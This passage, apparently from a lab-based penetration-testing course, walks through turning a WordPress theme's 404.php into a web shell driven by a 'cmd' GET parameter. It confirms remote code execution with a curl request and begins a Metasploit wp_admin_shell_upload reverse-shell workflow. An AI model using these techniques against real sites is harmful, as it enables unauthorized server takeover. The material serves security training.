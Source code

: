 The above code should allow us to execute commands via the GET parameter `cmd`. In this example, we modified the source code of the `404.php` page and added a new function called `system()`. This function will allow us to directly execute operating system commands by sending a GET request and appending the `cmd` parameter to the end of the URL after a question mark `?` and specifying an operating system command. The modified URL should look like this `404.php?cmd=id`.

We can validate that we have achieved RCE by entering the URL into the web browser or issuing the `cURL` request below.

**RCE**

```shell-session
AbdulrahmanTamim@htb[/htb]$ curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"

uid=1000(wp-user) gid=1000(wp-user) groups=1000(wp-user)
<SNIP>
```



## Attacking WordPress with Metasploit

***

### Automating WordPress Exploitation

We can use the Metasploit Framework (MSF) to obtain a reverse shell on the target automatically. This requires valid credentials for an account that has sufficient rights to create files on the webserver.

We can quickly start `MSF` by issuing the following command:

**Starting Metasploit Framework**

&#x20; Attacking WordPress with Metasploit

```shell-session
AbdulrahmanTamim@htb[/htb]$ msfconsole
```

***

To obtain the reverse shell, we can use the `wp_admin_shell_upload` module. We can easily search for it inside `MSF`:

**MSF Search**

&#x20; Attacking WordPress with Metasploit

```shell-session
msf5 > search wp_admin

Matching Modules
================

#  Name                                       Disclosure Date  Rank       Check  Description
-  ----                                       ---------------  ----       -----  -----------
0  exploit/unix/webapp/wp_admin_shell_upload  2015-02-21       excellent  Yes    WordPress Admin Shell Upload
```
